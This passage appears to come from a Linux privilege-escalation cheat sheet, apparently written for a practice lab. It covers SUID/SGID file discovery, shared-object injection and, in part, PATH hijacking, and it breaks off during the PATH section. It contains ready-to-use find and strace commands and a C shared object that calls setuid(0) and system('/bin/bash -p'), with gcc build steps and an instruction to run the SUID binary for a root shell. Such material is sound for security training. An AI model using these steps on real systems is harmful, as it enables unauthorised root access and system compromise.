 ## SUID/GUID
Find files with the SUID and SGID bit set.
```bash
#SUID
find / -perm -u=s -type f -exec ls -l {} \; 2>/dev/null

#GUID
find / -perm -g=s -type f -exec ls -l {} \; 2>/dev/null
```

### Shared Object Injection
When a program is executed, it will try to load the shared objects it requires. By using `strace` on a program, the system calls can be tracked and this can help determine if any shared objects were not found. If a shared object was not found in a location that is writable to, it is possible to create a shared object with the same name.

Find files with the SUID bit set and check if any of those files load any shared objects that are not found in a writable directory.
```bash
find / -perm -u=s -type f -exec ls -l {} \; 2>/dev/null
strace /usr/local/bin/suid-so 2>&1 | grep -iE "open|access|no such file"

open("/home/user/.config/libcalc.so", O_RDONLY) = -1 ENOENT (No such file or directory)
```

Compile the following code with `gcc -shared -fPIC -o /home/user/.config/libcalc.so /home/user/libcalc.c` to create a shared object.
```c
#include <stdio.h>
#include <stdlib.h>

static void inject() __attribute__((constructor));

void inject() {
        setuid(0);
        system("/bin/bash -p");
}
```

Run `/usr/local/bin/suid-so` to spawn a root shell.
```bash
/usr/local/bin/suid-so
```

### PATH Environment Varìable
If a program tries to execute another program and doesn't specify an absolute path, the PATH directories will be searched until it is found.

Find files with the SETUID bit set and check if any of those files are inheriting a user's PATH environment variable and are attempting to execute programs without specifying an absolute path.
```bash
find / -perm -u=s -type f -exec ls -l {} \; 2>/dev/null
strings /usr/local/bin/suid-env
strace -v -f -e execve /usr/local/bin/suid-env 2>&1 | grep exec

#output from strings
service apache2 start
```
